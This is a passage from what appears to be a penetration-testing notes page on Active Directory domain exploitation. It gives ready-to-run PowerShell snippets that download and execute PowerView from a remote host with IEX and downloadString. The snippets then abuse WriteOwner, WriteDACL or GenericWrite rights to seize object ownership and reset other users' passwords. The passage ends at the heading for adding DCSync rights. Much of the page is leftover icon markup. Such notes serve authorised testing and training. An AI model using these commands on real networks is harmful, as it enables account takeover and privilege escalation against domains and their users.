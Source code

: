 ![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='606'%3e%3cg data-evernote-id='607' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='608' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='609' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

"{7EA15487-7F5B-4CE3-C029-CEBE6FFE6D47}" | Get-DomainGPO

##

Reset Domain User Password[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='621'%3e%3cg data-evernote-id='622' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='623' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='624' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#reset-domain-user-password)

If you own the owner of another AD user object (`WriteOwner `, `WriteDACL `, `GenericWrite `, `Owner `, etc), you can reset the password with ease:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='644'%3e%3cg data-evernote-id='645' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='646' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='647' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

41IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')

42​
43$user = 'DOMAIN\owner_acct';
44$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force;
45$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
46​
47$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force;
48​

49Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;

Or if you can set yourself as owner, the following will do:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='686'%3e%3cg data-evernote-id='687' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='688' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='689' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

50IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')

51Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
52Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
53$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
54Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass

##

Add/Exploit DCSync Rights[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='713'%3e%3cg data-evernote-id='714' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='715' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='716' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#add-exploit-dcsync-rights)

Do you have `WriteDACL ` to a domain? Give DCSync rights to an unprivileged domain user account:

